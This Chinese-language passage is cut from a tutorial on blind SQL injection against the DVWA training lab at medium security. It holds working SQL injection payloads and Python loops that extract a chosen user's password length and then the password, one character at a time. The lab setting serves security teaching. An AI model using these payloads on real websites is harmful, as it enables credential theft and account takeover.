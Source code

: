 选择目标用户对于持续攻击至关重要，我们将再次询问用户:

```
username = input("Type the name of the target user: ")
```

现在我们有了完成攻击所需的所有信息，我们只是缺少两条信息，您可能会想到是哪条:

*   密码的长度
*   密码本身

获取密码长度的有效负载是:

```
1 AND LENGTH((SELECT {} FROM {} WHERE {}={}))={} #
```

正如我们之前所做的，我们可以使用以下 python 代码注入有效负载:

```
query = queries["pwd_len"]
pwd_length = 0
for i in range(100):

    if get_query_result(s, sqli_blind_url, query, passwords_column, users_table, users_column, get_hex_str(username), i ):
        pwd_length = i
        print(f"[+] The password length is: {i}")
```

脚本的最后一步是定义有效负载和运行它的代码。

```
1 AND SUBSTR((SELECT {} FROM {} WHERE {}={} LIMIT 1), {}, 1)={} #
```

这将由以下代码运行。

```
query = queries["pwd"]
password = []
for j in range(1, pwd_length+1):

    for c in string.ascii_letters+string.digits:

        if get_query_result(s, sqli_blind_url, query, passwords_column, users_table, users_column, get_hex_str(username), j, get_hex_str(c)):
            password.append(c)

            break
print("[+] Password is: ","".join(password))
```

python 脚本已经完成，现在运行它。

# 步骤 6:在中等安全级别的 DVWA 上运行盲 SQL 注入 Python 脚本。

将脚本保存在名为“main.py”的文件中，可以通过键入以下命令从命令行运行:
